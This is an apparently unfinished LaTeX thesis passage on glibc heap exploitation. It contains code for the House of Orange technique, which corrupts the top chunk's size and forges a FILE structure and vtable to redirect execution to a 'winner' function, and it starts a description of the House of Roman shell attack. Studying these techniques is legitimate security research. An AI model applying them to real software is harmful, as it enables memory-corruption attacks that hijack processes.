 \documentclass{masterthesis}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
    || __builtin_expect (victim->size > av->system_mem, 0))
   malloc_printerr (check_action, "malloc(): memory corruption",
       chunk2mem (victim), av); 
\end{lstlisting}


During iteration over chunks inside the \ub{}, the libc checks the size of the chunk, if the size smaller than MINSIZE then the abort procedure called and an attack be performed.

\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events are complete , but we have to meet the condition of IO\_LIST\_ALL

\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}

Finally, we trigger the attack by one allocation. 

\begin{lstlisting}[language=c,frame=tlrb]
 malloc(10);
\end{lstlisting}

\subsection{The House of roman = NOT FINISH YET}
This attack is a combination of \fb{} attack, \ub{} attack, and Use after the free attack, also, The goal is to open a shell. However, the chance of a successful attack is so small because we need to brute force 12-bit of randomness. The attack consists of three steps.

The first step is to get a pointer inside malloc\_hook, but, what is the malloc hook? Malloc\_hooc lets you modify the behavior of malloc and free with a hook function. To achieve this we use a \fb{} attack in a way the fd pointer points to malloc\_hook.

\subsection{The House of Rabbit}
\end{document}
